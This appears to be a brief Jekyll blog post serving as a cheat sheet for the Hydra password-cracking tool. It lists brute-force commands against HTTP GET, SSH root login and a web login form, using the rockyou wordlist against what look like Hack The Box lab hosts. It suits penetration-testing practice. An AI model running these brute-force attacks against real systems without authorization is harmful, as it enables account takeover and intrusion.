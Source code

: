 ```yaml
---
layout: post
title: Hydra
date: 2022-04-09
---
```

### Basic prompt

```
$ hydra -L words.txt -P /usr/share/wordlists/rockyou.txt http-get://meow.htb:8080 -t 25
```

### SSH attack

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.16 -t 4 -V
```

### POST to form data
```
$ hydra -l "admin@book.htb" -P /usr/share/wordlists/rockyou.txt 10.10.10.176 http-post-form "/admin/index.php:email=^USER^&password=^PASS^&Login=Login:Nope" -V
```